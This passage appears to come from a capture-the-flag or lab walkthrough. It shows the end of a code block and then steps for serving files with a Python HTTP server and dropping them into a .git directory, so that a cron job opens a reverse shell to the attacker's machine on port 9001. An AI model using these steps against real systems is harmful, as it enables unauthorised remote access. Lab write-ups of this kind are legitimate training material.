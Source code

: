 ```sh
  return 0;
  
}

```

Remember to input your attackers machine ip and set up a listening port(9001 in this case)

Now we will open a http server in the directory that file is using python
```sh
python3 -m http.server 8081
```

![alt img](images/5-6.png)

Now download the files into that .git directory so it can create a reverse shell when  the cronjob comes on